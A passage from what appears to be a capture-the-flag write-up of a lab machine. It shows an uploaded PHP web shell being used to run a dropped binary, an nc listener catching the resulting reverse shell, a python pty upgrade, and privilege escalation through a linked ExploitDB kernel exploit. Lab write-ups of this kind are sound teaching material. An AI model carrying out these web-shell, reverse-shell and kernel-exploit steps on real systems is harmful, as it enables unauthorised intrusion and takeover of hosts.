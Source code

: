 ```
http://10.10.10.121/support/uploads/tickets/525fd02f530e81b8a207142174137194.php?a=chmod 777 /tmp/plx69/plx69
```

> Note: when you use `-P` with `wget` it creates a new folder for the file to live in, so in the example above my shell is going to be in /tmp/plx69/plx69. I spent 15 minutes trying to get a shell back from a directory... Read the `man` pages! 

Now fire up an `nc` listener:

```
nc -lvnp 4444
```

And then fire off the command in the browser, or in a `curl` command like a badass.

```
curl -X GET http://10.10.10.121/support/uploads/tickets/423731a0bba8028092808075df4fe60a.php?a=/tmp/plx69/plx69 
```

And we're in (insert hacker voice)

This shell sucks...

```
python -c "import pty; pty.spawn('/bin/bash')"
```

Much better.


## Getting Root

This was a bit of a let down tbh, I really didn't think it was going to be as easy as it was at first, so I spent a good hour or so just looking around the system for something that'd give me a direction to move in, usual priv-esc checklist, processes, interesting files, SUIDs, GUIDs, but it was just this...

__A Kernel Exploit__

*sigh*

`uname -a` Gave up the goods, and with it being one of the first things I usually grab on a system, the path to root was super quick compared to user. 

Oh well, nice and easy. Means we can get onto something else!

Google around for the Kernel with the word "exploit" and you'll find two ExploitDB links. 

One works, and one does not. 

[This one worked](https://www.exploit-db.com/exploits/45010)

[This one did not](https://www.exploit-db.com/exploits/44298)

Interestingly a few people seem to have had some success with that second one, my attempts were met with a simple `error: Ivalid Argument` when I tried to run it. 

`gcc` doesn't work on the target machine, and we're not about to fix it. So just build it on your Kali box, it's a 64bit Linux machine, so no need to change anything, just a straight build command.
